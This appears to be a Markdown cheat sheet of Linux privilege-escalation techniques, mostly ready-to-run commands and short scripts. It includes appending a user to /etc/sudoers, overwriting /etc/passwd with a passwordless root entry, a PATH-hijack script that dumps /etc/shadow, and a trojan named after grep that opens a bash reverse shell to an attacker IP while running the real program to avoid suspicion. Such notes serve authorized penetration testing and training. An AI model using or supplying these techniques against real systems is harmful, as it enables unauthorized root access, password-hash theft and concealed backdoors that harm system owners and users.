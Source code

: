 # GTFO Bins:
GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.
```
https://gtfobins.github.io/
```

# Commands:
check to see what sudo privledges the user has
```
sudo -l
cat /etc/sudoers
```

# other Super Users?:
```
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 {print $1}'
```

# lists available exploits Linux kernel in kali Linux
```
searchsploit Linux Kernel 2.6.24 
```


# Grep hardcoded passwords:
### Use grep to look for user in filename
```
grep -i user [filename]
```
### Use grep to look for pass in filename
```
grep -i pass [filename]
```
### Use grep to look for password in filename
```
grep -C 5 "password" [filename]
```
### find php file and check them for the variable $password
```
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"
```



# root access:
## list all programs this account has sudo access to
```
sudo -l
```

## find all files with SUID & SGID set
```
find . -perm /2000 
find / -perm -4000 -o -perm -2000
find / -perm -u=s -type f 2>/dev/null
find / -perm /6000
find / -perm /6001   
```

## services which are running as root
```
ps -aux | grep root
```

## check if web server runs as root
```
grep "localhost" ./ -R
```

# Add username to sudoers in python.
```
#!/usr/bin/env python

import os
import sys
try:
        os.system('echo "username ALL=(ALL:ALL) ALL" >> /etc/sudoers')
except:
        sys.exit()
```

# Use Python to run script in zip file:
```
mkdir test
echo 'print("Hello World!!") > test/__main__.py
zip -j test.zip test/*
python test.zip
```



## cronjob
If there is a cronjob that runs as root but it has incorrect file permissions, you can change it to run your SUID binary and get a shell.

## list processes running by root, permissions and NFS exports
```
echo 'services running as root'; ps aux | grep root;  echo 'permissions'; ps aux | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++'; echo 'nfs info'; ls -la /etc/exports 2>/dev/null; cat /etc/exports 2>/dev/null
```

# if you have write permissions for /etc/passwd 
back up current/etc/passwd
```
cp /etc/passwd /etc/passwd.bak
```
overwrite /etc/passwd to gain root access
```
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su
```


# ltrace
ltrace to find were a program makes system calls:
find a program with Setuid used
```
find /usr/bin -perm -4000
```
find a program that runs with root priveledges
```
ls -l </path/to/program>
```
try program to see what it requires, maybe try a --help flag. use ltrace to check to see if it calls another script or program that we have access to
```
ltrace </path/to/program> <required options to run>
```
look for system calls where the program is not a specific path for example if it calls grep without specifying a path if so create a script to run:

##Grab Hash script:
```
#!/bin/dash
cat /etc/shadow
```
## **note Bash likes to drop setuid permissions but Dash will not**
make executable 
```
chmod 755 grep
```
change PATH so it check your folder first when the program is run
```
export PATH=.:$PATH
```
run the program that has root priveledges and it should call your script and give you the output


# auto-root script
Check history 
```
history
```
Change the name of the file you are creating to be a program they use often, especially if they use sudo with it. change the script to use the shell of your choice. 

Find the most common program used with sudo 
```
history | grep sudo | awk '{print $2, $3}' | sort | uniq -c | awk '{print $3}' | awk '(NR>=0 && NR<=11){print} (NR==1){exit}'
```
assuming that program is grep
```
nano grep 
```
Reverse shell backdoor
```
#!/bin/dash
# open reverse shell 
# change IP and Port to your attack machine settings
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
# open original program to prevent suspicion 
/usr/bin/grep
```

make executable 
```
chmod 755 grep
```
change PATH so it check your folder first when the program is run
```
export PATH=.:$PATH
OR
export PATH=$PWD:$PATH
```
run the program backdoor
```
./backdoor 
whoami
id
```
